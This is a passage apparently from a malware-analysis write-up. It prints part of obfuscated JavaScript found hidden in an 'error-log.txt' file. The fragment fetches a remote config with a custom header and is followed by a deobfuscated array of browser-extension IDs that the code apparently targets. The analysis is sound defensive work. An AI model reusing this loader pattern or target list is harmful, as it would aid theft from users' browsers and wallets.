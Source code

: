 ```javascript
    try {
      globalConfig = await axios.get(src, { headers: { [k]: v } });
      log("Runtime config loaded successfully.");
    } catch (error) {
      const errMsg = `${error.response?.data || error.message}`;
      console.error(errMsg);
      logErrorToFile(errMsg);
    }
  } catch (err) {
    const errMsg = `${err.response?.data || err.message || err}`;
    console.error(errMsg);
    logErrorToFile(errMsg);
  }
};

errorTimeHandler();
```
Bingo! We've got the JavaScript code inside the ```error-log.txt``` file — what a surprise!

![Screenshot](./error_log.png)

# Deobfuscate the response file

After copying the entire content of the response file, I went to this link to beautify it and see if it could be fully deobfuscated: [https://obf-io.deobfuscate.io](https://obf-io.deobfuscate.io).

However, it seems like the tool only managed to beautify and partially untangle the code—and that was actually the best result I got after wandering through every deobfuscation tool I could find. Below is a part of file:

![A part of file](https://hackmd.io/_uploads/Sk_e6kvQxe.png)

## Quick look

Skimming through the deobfuscated file, the first thing that caught my eye was an array of strings like this:

```javascript
const Bt = ["nkbihfbeogaeaoehlefnkodbefgpgknn", "ejbalbakoplchlghecdalmeeeajnimhm", "fhbohimaelbohpjbbldcngcnapndodjp", "ibnejdfjmmkpcnlpebklmnkoeoihofec", "bfnaelmomeimhlpmgjnjophhpkkoljpa", "aeachknmefphepccionboohckonoeemg", "hifafgmccdpekplomjjkcfgodnhcellj", "jblndlipeogpafnldhgmapagcccfchpi", "acmacodkjbdgmoleebolmdjonilkdbch", "dlcobpjiigpikoobohmabehhmhfoodbb", "mcohilncbfahbmgdjkbpemcciiolgcge", "agoakfejjabomempkjlepdflaleeobhb", "omaabbefbmiijedngplfjmnooppbclkk", "aholpfdialjgjfhomihkjbmgjidlcdno", "nphplpgoakhhjchkkhmiggakijnkhfnd", "penjlddjkjgpnkllboccdgccekpkcbin", "lgmpcpglpngdoalbgeoldeajfclnhafa", "fldfpgipfncgndfolcbkdeeknbbbnhcc", "bhhhlbepdkbapadjdnnojkbgioiodbic", "aeachknmefphepccionboohckonoeemg", "gjnckgkfmgmibbkoficdidcljeaaaheg", "afbcbjpbpfadlkmhmclhkeeodmamcflc"];
```
